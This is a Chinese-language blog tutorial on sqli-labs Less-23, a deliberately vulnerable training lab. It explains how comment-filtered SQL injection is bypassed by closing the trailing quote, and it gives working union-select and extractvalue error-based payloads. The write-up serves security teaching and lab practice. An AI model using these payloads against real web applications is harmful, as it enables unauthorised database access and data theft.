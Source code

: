 ```yaml
---
title: 绕过注释过滤
toc: true
description: 本文通过 sqli-lab 23 来介绍如何绕过注释被过滤的情况
summary: 本文通过 sqli-lab 23 来介绍如何绕过注释被过滤的情况
categories:
    - websec
    - sql injection
date: 2019-08-04 09:06:49
tags:
---
```


## 检测注入点

?id=1'

回显：

> **Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **C:\phpStudy\WWW\sqli-labs\Less-23\index.php** on line **38**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

根据报错：'1'' LIMIT 0,1，我们知道闭合方式为单引号，后面还有语句，可以用注释注释掉。

下面构造：?id=1' --+ 和 ?id=1' %23

均回显：

> **Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **C:\phpStudy\WWW\sqli-labs\Less-23\index.php** on line **38**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

按理说，不应该报错，就是报错也应该报：' -- LIMIT 0,1 或 ' # LIMIT 0,1，这里我们可以得出，两种注释被过滤掉了。

下面看看源码，

```php
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
```

pre_replace 函数

> mixed preg_replace (mixed pattern, mixed replacement, mixed string [, int limit [, int &$count]] );

preg_replace 函数执行一个正则表达式的搜索和替换,搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换,后面可选的参数是用来控制替换次数与替换执行次数的。

这里，我们正式再次说一下（之前博文中讲过），两种构造 payload 的小差异（其实差异也不大）。

1. 闭合前面的，注释后面的，在中间构造新语句
2. 闭合前面的，注释后面的，在中间构造语句（当然，可以用中间构造的一部分来闭合后面的）

之所以比较正式的提出这两种，是因为我们习惯了（尤指我）前一种（比较暴力，而且需要注释管用的方法），其实，从实用角度来看，后一种比较好，不用担心注释问题。

## 猜字段

?id=1' order by 3,'1 3 个字段

上面涉及一个小知识点：order by 后面可以跟逗号分隔的多列，进行多列排序，优先级当然是第一个优先。因此，我们可以多写一个列来闭合后面的引号。

## 查看显示位

?id=-1' union select 1,2,'3

注意：这里的第三个字段是用来与后面闭合的，'3',因此，不能用来显示东西。不信，你试试：?id=-1' union select 1,2,'version()
，可是如果只有 3 是显示位，那我们该怎么办呢？

提出以下两种改进方案：（我比较喜欢第一种，因为第二种查询了 database(),感觉有点过早地触发敏感信息。）
?id=-1' union select 1,2,3 union select 4,5,'6
?id=-1' union select 1,2,3 from (select database())a where '1

第一种，就是再来一个 union select，因为联合查询前面语句查出来的总是靠前，因此，1，2，3 还是可以用来监测显示位的。

第二种就是纯粹为了找个引号，然后从某个数据库中查 1 ，在 where 条件加一个引号。

当然，此关使用报错注入等方式也可以
?id=1' or extractvalue(1,concat(0x7e,database())) or '1'='1

后面的操作与之前类似，不再详解。
